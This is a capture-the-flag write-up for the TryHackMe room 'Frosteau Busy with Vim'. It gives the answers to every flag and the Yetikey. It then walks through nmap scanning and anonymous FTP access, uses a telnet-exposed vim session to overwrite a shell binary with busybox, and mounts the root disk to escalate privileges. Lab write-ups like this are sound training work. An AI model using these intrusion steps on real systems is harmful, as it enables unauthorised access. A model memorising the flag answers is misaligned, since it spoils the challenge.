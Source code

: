 # Frosteau Busy with Vim
## https://tryhackme.com/jr/busyvimfrosteau
### 10.10.169.151

+ What is the value of the first flag?`THM{Let.the.game.begin}`
+ What is the value of the second flag?`THM{Seems.like.we.are.getting.busy}`
+ What is the value of the third flag?`THM{Not.all.roots.and.routes.are.equal}`
+ What is the value of the fourth flag?`THM{Frosteau.would.be.both.proud.and.disappointed}`
+ What is the value of the third Yetikey that has been placed in the root directory to verify the compromise?`3-d2dc6a02db03401177f0511a6c99007e945d9cb9b96b8c6294f8c5a2c8e01f60`

### RECONNAISE
+ Scan the machine using `nmap -sT -p- $IP`
    ```bash
    root@ip-10-10-98-127:~# nmap -sT -p- 10.10.169.151

    Starting Nmap 7.60 ( https://nmap.org ) at 2023-12-30 05:31 GMT
    Nmap scan report for ip-10-10-169-151.eu-west-1.compute.internal (10.10.169.151)
    Host is up (0.00033s latency).
    Not shown: 65529 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    8065/tcp open  unknown
    8075/tcp open  unknown
    8085/tcp open  unknown
    8095/tcp open  unknown
    MAC Address: 02:19:40:CE:0C:39 (Unknown)

    Nmap done: 1 IP address (1 host up) scanned in 2.31 seconds
    ```
+ Re-scan using script `nmap -sC -sV -p 22,80,8065,8075,8085,8095 10.10.169.151 > nmap_log`

+ Using telnet :
    ```
    root@ip-10-10-98-127:~# telnet 10.10.169.151 8065 
    Trying 10.10.169.151...
    Connected to 10.10.169.151.
    Escape character is '^]'.

    Ubuntu 22.04.3 LTS
    Connection closed by foreign host.


    root@ip-10-10-98-127:~# telnet 10.10.169.151 8075
    Trying 10.10.169.151...
    Connected to 10.10.169.151.
    Escape character is '^]'.
    220 Operation successful

    root@ip-10-10-98-127:~# ftp $IP 8075
    Connected to 10.10.169.151.
    220 Operation successful
    Name (10.10.169.151:root): anonymous
    230 Operation successful
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 Operation successful
    150 Directory listing
    total 8132
    -rw-r--r--    1 0        0             3010 Nov  5 18:49 FROST-2247-SP.txt
    -rw-r--r--    1 0        0             3211 Nov  5 18:50 YETI-1125-SP.txt
    -rw-r--r--    1 0        0               24 Nov  5 19:06 flag-1-of-4.txt
    -rw-r--r--    1 0        0               12 Nov  5 19:07 flag-2-of-4.sh
    -rw-r--r--    1 0        0          2127524 Nov  5 18:54 frostling_base.png
    -rw-r--r--    1 0        0          2305908 Nov  5 18:54 frostling_five.png
    -rw-r--r--    1 0        0          1589463 Nov  5 18:54 yeti_footage.png
    -rw-r--r--    1 0        0          2277409 Nov  5 18:54 yeti_mugshot.png

    ftp> get flag-1-of-4.txt
    local: flag-1-of-4.txt remote: flag-1-of-4.txt
    200 Operation successful
    150 Opening BINARY connection for flag-1-of-4.txt (24 bytes)
    226 Operation successful
    24 bytes received in 0.00 secs (275.7353 kB/s)


    ftp> get flag-2-of-4.sh
    local: flag-2-of-4.sh remote: flag-2-of-4.sh
    200 Operation successful
    150 Opening BINARY connection for flag-2-of-4.sh (12 bytes)
    226 Operation successful
    12 bytes received in 0.00 secs (234.3750 kB/s)

    root@ip-10-10-98-127:~# cat flag-1-of-4.txt 
    THM{Let.the.game.begin}

    $ $FLAG2
    /tmp/sh: 4: THM{Seems.like.we.are.getting.busy}: not found

    / # bb cat /mnt/root/*.txt 
    THM{Frosteau.would.be.both.proud.and.disappointed}
    3-d2dc6a02db03401177f0511a6c99007e945d9cb9b96b8c6294f8c5a2c8e01f60
    ```
### EXPLOIT 
+ Using telnet to modyfied the sh
    - `telnet 10.10.169.151 8085` will open vim 
    - `:e /usr/frosty/sh` to edit file on that location and press `i` to insert mode and add this `#!/etc/file/busybox` after add that line pres `esc` to out of edit mode and type `:w! /usr/frosty/sh` to write (save)
+ using telnet to got shell
    - `telnet 10.10.169.151 8065` and now we got the shell 
    - `/ # alias bb=/etc/busybox` to use busybox 

### PRIVILEDGE ESCALATION
    - Use our alias 
    ```bash
    / # bb mount -o rw /dev/xvda1 /mnt
    / # bb ls /mnt
    bin         dev         home        lib32       libx32      media       opt         root        sbin        srv         tmp         var
    boot        etc         lib         lib64       lost+found  mnt         proc        run         snap        sys         usr
    / # bb ls /mnt/root
    flag-4-of-4.txt  snap             yetikey3.txt
    / # bb cat /mnt/root/flag-4-of-4.txt 
    THM{Frosteau.would.be.both.proud.and.disappointed}
    / # bb cat /mnt/root/*.txt 
    THM{Frosteau.would.be.both.proud.and.disappointed}
    3-d2dc6a02db03401177f0511a6c99007e945d9cb9b96b8c6294f8c5a2c8e01f60
    / # 
    ```







